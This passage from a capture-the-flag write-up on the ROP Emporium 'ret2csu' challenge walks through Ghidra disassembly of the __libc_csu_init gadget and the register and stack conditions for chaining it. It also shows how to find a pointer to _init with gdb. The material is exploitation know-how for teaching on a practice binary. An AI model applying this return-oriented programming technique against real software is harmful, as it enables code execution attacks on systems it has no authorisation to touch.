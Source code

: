 ```
        00400891 48 39 dd        CMP        RBP,RBX
        00400894 75 ea           JNZ        LAB_00400880
                             LAB_00400896                                    XREF[1]:     00400874(j)  
        00400896 48 83 c4 08     ADD        RSP,0x8
        0040089a 5b              POP        RBX
        0040089b 5d              POP        RBP
        0040089c 41 5c           POP        R12
        0040089e 41 5d           POP        R13
        004008a0 41 5e           POP        R14
        004008a2 41 5f           POP        R15
        004008a4 c3              RET
```

So a few conditions we will need to meet. The first we have to ensure that `[R12 + RBX*0x8]` resolves to a pointer to a valid instruction pointer. After that, we need to ensure that `RBP` and `RBX` are equal to each other (after `RBX` is incremented by one) otherwise it will jump to `LAB_00400880` and rerun our gadget. After that the first gadget runs which ends in a `RET` instruction, however we need to ensure that there are values on the stack for the `POP` instructions.

For the function we are calling we will call `_init`. The reason why I call this function instead of other function, is this one doesn't crash when I call it in this context. Let's find a pointer to it's address.

When we check the address of `_init` in ghidra, we see that it is `0x400560`:

```
                             //
                             // .init
                             // SHT_PROGBITS  [0x400560 - 0x400576]
                             // ram: 00400560-00400576
                             //
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             int __stdcall _init(EVP_PKEY_CTX * ctx)
             int               EAX:4          <RETURN>
             EVP_PKEY_CTX *    RDI:8          ctx
                             __DT_INIT                                       XREF[4]:     Entry Point(*),
                             _init                                                        __libc_csu_init:0040086c(c),
                                                                                          00600e38(*),
                                                                                          _elfSectionHeaders::000002d0(*)  
        00400560 48 83 ec 08     SUB        RSP,0x8
```

We can find a pointer to it using gdb:

```
gef➤  search-pattern 0x400560
[+] Searching '\x60\x05\x40' in memory
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x400000-0x401000), permission=r-x
  0x400e38 - 0x400e44  →   "\x60\x05\x40[...]"
[+] In '/Hackery/pod/modules/ret2_csu_dl/ropemporium_ret2csu/ret2csu'(0x600000-0x601000), permission=r--
  0x600e38 - 0x600e44  →   "\x60\x05\x40[...]"
```
